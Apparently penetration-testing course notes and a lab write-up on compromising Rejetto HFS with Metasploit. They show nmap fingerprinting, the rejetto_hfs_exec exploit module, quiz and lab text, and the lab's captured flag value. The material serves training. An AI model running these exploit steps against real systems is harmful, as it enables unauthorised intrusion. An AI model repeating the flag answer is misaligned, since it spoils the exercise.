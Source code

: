 
- AKA HFS - HTTP File Server
- Rejetto HFA - Open source HTTP File Server
- Port 80

Start up msfconsole and postgres
```
service postgres start
msfconsole
```

Setup workspace and check db
```
db_status
workspace -a HFS
setg RHOSTS <target_ip>
setg RHOST <target_ip>
```

Scan with db_nmap
```
db_nmap -sS -sV -O <target_ip>
```

Search for exploits of hfs
```
search type:exploit name:rejetto
```

Setup module
```
use exploit/windows/http/rejetto_hfs_exec
exploit
```

## Quiz

Q: 1/1

An HTTP file server can be used to host a web application?

	TRUE

## Lab

A Kali GUI machine and a target machine running a vulnerable HTTP File Server server are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target).  

Your task is to fingerprint the application using the tools available on the Kali machine and then exploit the application using the appropriate Metasploit module.

Objective: Exploit the application and retrieve the flag!

Instructions:* Your Kali machine has an interface with IP address 10.10.X.Y. Run “ip addr” to know the values of X and Y. * The IP address of the target machine is mentioned in the file “/root/Desktop/target” * Do not attack the gateway located at IP address 192.V.W.1 and 10.10.X.1


```
10.4.22.135
```

```
db_nmap -sS -sV -O 10.4.22.135
80/tcp    open  http               HttpFileServer httpd 2.3
```

```
f74c8347798f4082daf4b4570dba094a
```